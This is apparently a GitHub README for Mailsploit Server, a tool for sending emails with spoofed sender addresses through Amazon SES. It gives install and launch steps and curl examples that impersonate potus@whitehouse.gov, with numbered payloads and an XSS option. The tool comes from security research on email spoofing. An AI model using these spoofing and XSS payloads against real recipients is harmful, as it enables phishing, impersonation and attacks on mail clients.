 ![Mailsploit logo](https://raw.githubusercontent.com/pwnsdx/Mailsploit/master/resources/logo.png?fuckgithubcache=2)

### Mailsploit Server

*Note*: You will need an Amazon SES account with a verified domain in order to use the tool. Also, the web server can only run at 88 miles per hour.

#### How to install

1. Clone the repository
2. Edit `originalFrom` in `src/main/Config.ts` with your verified SES email address.
3. Run the following commands in the terminal:
```
yarn install && yarn dist # Require yarn
```

#### How to launch the web server

1. Run the following command in the terminal:
```
SES_USERNAME=[Amazon SES Username] SES_PASSWORD=[Amazon SES Password] node dist/commonjs/index.js
```
2. That's it. The server will run on localhost:8081

#### How to use it

You can do a POST request containing `sender`, `receiver` and `options` (from 0 to 13) parameters to the `/process` endpoint.

Example using cURL (payload 3 without XSS):

```
curl --url http://localhost:8081/process --data "sender=potus@whitehouse.gov&receiver=sabri@riseup.net&options=2"
```

or, all the payloads with XSS:

```
curl --url http://localhost:8081/process --data "sender=potus@whitehouse.gov&receiver=sabri@riseup.net&xss=true&options=-1"
```

All the payloads are [available here](https://github.com/pwnsdx/Mailsploit/blob/master/src/main/Payloads.ts#L30).